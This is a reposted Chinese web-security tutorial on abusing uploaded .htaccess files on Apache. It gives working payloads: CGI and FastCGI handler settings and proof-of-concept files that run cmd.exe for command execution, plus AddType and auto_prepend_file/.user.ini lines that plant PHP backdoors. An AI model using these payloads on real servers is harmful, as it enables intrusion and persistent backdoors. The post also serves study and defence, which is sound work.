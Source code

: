 ```yaml
---
author: 
  name: 搬运
title: .htaccess文件利用
date: 2022-7-17 09:32:07
permalink: /pages/2e1547494524d1cb
tags: 
  - web
  - uploadfile
---
```


# .htaccess文件利用

## Apache调用解析器的三种方式

**在普遍使用的LAMP架构中，Apache与PHP之间的交互，有三种常见的方式。**

- 第一种是最通用最常见的Module方式，即在httpd.conf中使用LoadModule的方式，将php的dll或者so文件加载到apache当中
- 还有两种是CGI方式和FastCGI方式。其实后者用的越来越广泛了。一般PHP-FPM也是与FastCGI进行配合使用的
- 可以参考[CGI、FastCGI和PHP-FPM关系图解](https://www.awaimai.com/371.html)

## CGI启动方式的RCE利用姿势

当我们了解原理后，Apache是需要调用第三方CGI程序，但是一个程序是不是CGI程序这个事很难界定，我们能否通过调用特定的CGI程序(普通程序)来执行任意系统命令呢，答案是可以的

### 利用条件

1. 保证htaccess会被解析，即当前目录中配置了`AllowOverride all或AllowOverride Options FileInfoAllowOverride参数具体作用可参考Apache之AllowOverride参数详解(Require all granted也是需要的)

2. cgi_module被加载。即apache配置文件中有LoadModule cgi_module modules/mod_cgi.so这么一句且没有被注释

3. 有目录的上传、写入权限

### 利用姿势

上传.htaccess 文件, 内容如下

```
Options ExecCGI
AddHandler cgi-script .xx
```

Options ExecCGI表示允许CGI执行，如果AllowOverride只有FileInfo权限且本身就开启了ExecCGI的话，就可以不需要这句话了

第二句告诉Apache将xx后缀名的文件，当做CGI程序进行解析

接下来，以Windows平台为例，上传poc.xx文件，内容如下：

```
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
```

第一行用来表示CGI程序的路径。可以随便开你的脑洞

因为CGI程序处理完成后，会被Apache关闭，所以我们这里要用启动新进程的方式来启动

结果，这时访问poc.xx，计算器就出来了

拿火绒剑来看下

![htaccess001](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/htaccess001.png)

一目了然，读取了两个文件后，httpd.exe的mod_cgi.so模块执行了我们的命令

linux环境下，也是随你玩，是直接调用/bin/bash还是调用/usr/bin/python来反弹Shell。都是可以的。这其实也就是正常使用方式，因为Python也会被用作为CGI解析程序

## FastCGI启动方式的RCE利用姿势

我们再来看看FastCGI模式的，这个依赖的是mod_fcgid.so，默认安装包里甚至没有这个so文件，不过在PHPStudy的默认配置中，就已经是加载了的，并且AllowOverride也是All权限，手动斜眼

其实还有mod_proxy_fcgi，更为常见，也是默认开启的，还不清楚能否利用，可以自行尝试一下

### 利用条件

1. AllowOverride all或AllowOverride Options FileInfo

2. mod_fcgid.so被加载。即apache配置文件中有LoadModule fcgid_module modules/mod_fcgid.so

3. 有目录的上传、写入权限

### 利用姿势

上传.htaccess 文件, 内容如下：

```
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
```

老样子，如果默认就开启了ExecCGI，则第一句可以省略

第二句表示，abc后缀名的文件需要被fcgi来解析。AddHandler还可以换成AddType

再上传1.abc。内容无所谓

结果，访问1.abc，计算器就出来了，再拿火绒剑看下

![htaccess002](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/htaccess002.png)

tips：若拥有上传权限，以上两种利用方式，在PHPstudy默认配置当中，都是可以直接使用的

### 使用相对路径

其实一些小伙伴也已经发现了，上面的问题再配合有上传漏洞，我甚至可以穿个马上去。但是无论是CGI还是FastCGI似乎都是绝对路径，相对路径可不可以呢

经过了一些尝试，并请教了”裤衩哥”,发现相对路径也是可以的，起始点似乎和session.save_path变量的值是一致的。如图，比如phpstudy当中，起始点就是在\Extensions\tmp\tmp中

![htaccess003](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/htaccess003.png)

那么，比如说我想要html后缀使用php来解析。就可以这样写

```
AddHandler fcgid-script .html
FcgidWrapper "../../php/php7.3.4nts/php-cgi.exe" .html
```

再来，我想调用网站根目录的calc.exe。可以这样

```
AddHandler fcgid-script .xx
FcgidWrapper "../../../WWW/localhost/calc.exe" .xx
```

不过计算器无法正常弹出。猜应该是因为calc毕竟不是个标准CGI程序导致的吧。而且也没必要绕这么大个圈子，就没继续测试了

## 其他常规利用姿势

### 将特定文件作为php解析，用作后门

Module模式下写法如下：

```
AddType application/x-httpd-php .jpg
```

或

```
  <FilesMatch "test.jpg">
    SetHandler application/x-httpd-php
  </FilesMatch>
```

甚至可以将 .htaccess本身作为php来解析，里面编写一句话。这块网络上相关资料很多

### PHP环境下使用 auto_prepend_file 或 auto_append_file 创建后门

通过配置auto_append_file或auto_prepend_file可以向所有php文件中的开头或尾部插入指定的文件的内容

在. htaccess中的写入如下：

```
php_value auto_prepend_file "/home/fdipzone/header.php"
php_value auto_append_file "/home/fdipzone/footer.php"
```

对于CGI/FastCGI模式 PHP 5.3.0 以上版本，还可以使用 在目录下创建.user.ini文件 。来引入该参数。写法如下：

```
auto_prepend_file = hackdoor.gif
```

[原文链接](https://www.cnblogs.com/anbuxuan/p/11867129.html)